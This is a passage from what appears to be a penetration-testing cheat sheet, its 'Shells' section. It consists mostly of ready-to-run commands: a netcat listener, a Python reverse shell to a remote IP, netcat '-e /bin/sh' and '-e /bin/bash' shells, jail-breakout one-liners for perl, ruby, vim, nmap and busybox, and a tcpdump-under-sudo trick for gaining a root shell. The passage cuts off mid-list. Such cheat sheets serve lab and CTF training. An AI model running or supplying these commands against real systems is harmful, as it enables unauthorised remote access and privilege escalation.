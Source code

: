 # [](#shells)Shells

*   Netcat Shell Listener

    `nc -nlvp 4444`

*   Spawning a TTY Shell - Break out of Jail or limited shell You should almost always upgrade your shell after taking control of an apache or www user.

        (For example when you encounter an error message when trying to run an exploit sh: no job control in this shell )

        (hint: sudo -l to see what you can run)

    *   You may encounter limited shells that use rbash and only allow you to execute a single command per session. You can overcome this by executing an SSH shell to your localhost:

              ssh user@$ip nc $localip 4444 -e /bin/sh
              enter user's password
              python -c 'import pty; pty.spawn("/bin/sh")'
              export TERM=linux

    `python -c 'import pty; pty.spawn("/bin/sh")'`

               python -c 'import socket,subprocess,os;s=socket.socket(socket.AF\_INET,socket.SOCK\_STREAM);          s.connect(("$ip",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(\["/bin/sh","-i"\]);'

    `echo os.system('/bin/bash')`

    `/bin/sh -i`

    `perl —e 'exec "/bin/sh";'`

    perl: `exec "/bin/sh";`

    ruby: `exec "/bin/sh"`

    lua: `os.execute('/bin/sh')`

    From within IRB: `exec "/bin/sh"`

    From within vi: `:!bash` or

    `:set shell=/bin/bash:shell`

    From within vim `':!bash':`

    From within nmap: `!sh`

    From within tcpdump

         echo $’id\\n/bin/netcat $ip 443 –e /bin/bash’ > /tmp/.test chmod +x /tmp/.test sudo tcpdump –ln –I eth- -w /dev/null –W 1 –G 1 –z /tmp/.tst –Z root

    From busybox `/bin/busybox telnetd -|/bin/sh -p9999`
    
*   If you've obtained a partially interactive bash shell (e.g. from a netcat listener) you can upgrade to a fully interactive shell (with tab autocomplete, and commands such as su and nano) by running the following commands:
